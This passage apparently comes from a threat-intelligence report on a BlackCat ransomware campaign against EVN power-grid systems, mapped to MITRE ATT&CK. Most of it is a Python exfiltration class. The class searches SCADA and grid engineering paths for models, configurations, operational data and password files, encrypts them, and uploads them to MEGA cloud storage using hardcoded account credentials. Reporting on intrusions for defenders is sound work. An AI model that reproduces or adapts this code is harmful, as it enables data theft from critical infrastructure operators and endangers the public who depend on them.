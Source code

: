 ### Phase 4: Data Exfiltration Strategy
**MITRE ATT&CK**: T1567.002 - Exfiltration to Cloud Storage [[72]](#ref72)

#### MegaSync Abuse for Grid Data Theft
```python
# BlackCat's automated exfiltration framework
# Targets specific EVN grid operational data
import os
import requests
from mega import Mega

class GridDataExfiltrator:
    def __init__(self):
        # Compromised MEGA accounts for exfiltration
        self.mega_accounts = [
            {'email': 'gridbackup2023@protonmail.com', 'password': 'Ev3rgy2023!@#'},
            {'email': 'scadaarchive@tutanota.com', 'password': 'Gr1dS3cur3!'},
        ]
        self.target_data = {
            'grid_models': ['*.cim', '*.icd', '*.scd'],
            'scada_configs': ['*.xml', '*.ini', '*.cfg'],
            'operational_data': ['*.csv', '*.xlsx', '*.mdb'],
            'network_diagrams': ['*.vsd', '*.dwg', '*.pdf'],
            'passwords': ['*pass*', '*cred*', '*.kdbx']
        }
        
    def exfiltrate_critical_data(self):
        mega = Mega()
        m = mega.login(self.mega_accounts[0]['email'], self.mega_accounts[0]['password'])
        
        # Priority 1: Grid topology and models
        critical_paths = [
            'C:\\EVN\\SCADA\\Models\\',
            'C:\\Program Files\\ABB\\EON600\\Config\\',
            'C:\\Siemens\\WinCC\\Project\\',
            'D:\\GridData\\Operational\\'
        ]
        
        for path in critical_paths:
            if os.path.exists(path):
                for pattern in self.target_data['grid_models']:
                    files = find_files(path, pattern)
                    for file in files:
                        # Encrypt before upload
                        encrypted = self.encrypt_file(file)
                        m.upload(encrypted, dest_filename=f"EVN_{os.path.basename(file)}.enc")
```

---

## MITRE ATT&CK Mapping
